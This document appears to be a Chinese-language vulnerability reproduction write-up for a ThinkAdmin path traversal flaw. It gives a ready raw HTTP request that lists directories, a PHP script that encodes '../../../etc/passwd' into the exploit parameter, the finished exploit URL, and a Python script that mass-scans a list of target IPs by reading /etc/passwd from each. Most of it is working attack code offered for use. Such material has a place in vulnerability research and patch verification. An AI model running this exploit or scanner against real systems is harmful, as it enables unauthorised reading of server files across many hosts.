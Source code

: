 # ThinkAdmin -- 任意文件读取

## 简介

ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

## 影响范围

Thinkadmin ≤ 2020.08.03.01  

 v5（任意文件读取）   

v6（列目录,任意文件读取）



## 漏洞复现

### 列目录

``` 
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```



### 任意文件读取

1、利用脚本编码需要读取的文件名

```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```

![image-20201206130047379](./img/encode.png)

2、读取/etc/passwd文件

```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

![image-20201206130047379](./img/file.png)

3、将获取到的base64编码内容进行解码

![image-20201206130047379](./img/decode.png)

## 脚本使用方法

```
# by : YaunSky
# 时间 : 2020-12-06
# 内容 : ThinkAdmin 任意文件读取 (脚本读取/etc/passwd)


import requests
import json
import base64

requests.packages.urllib3.disable_warnings()

heard = {
    "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.17763",
    "Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language" : "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding" : "gzip, deflate",
    "Connection" : "close",
    "Upgrade-Insecure-Requests" : "1" 
}
res = open("ip2.txt","r")  #ip2.txt 存放探目标的文件
for ip in res.readlines():
    #print(ip.strip())
    url = ip.strip()+"/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s"
    try:
        request = requests.get(url=url, headers=heard, verify=False, timeout=3)
        try:
            rep = base64.b64decode(json.loads(request.text)['data']['content'])
            if "root" in str(rep):
                print("[+]"+ip.strip()+"存在任意文件读取漏洞")
            else:
                pass
        except:
            pass
    except:
        pass
```

python ThinkAdminScan.py

![image-20201206130047379](./img/scan.png)

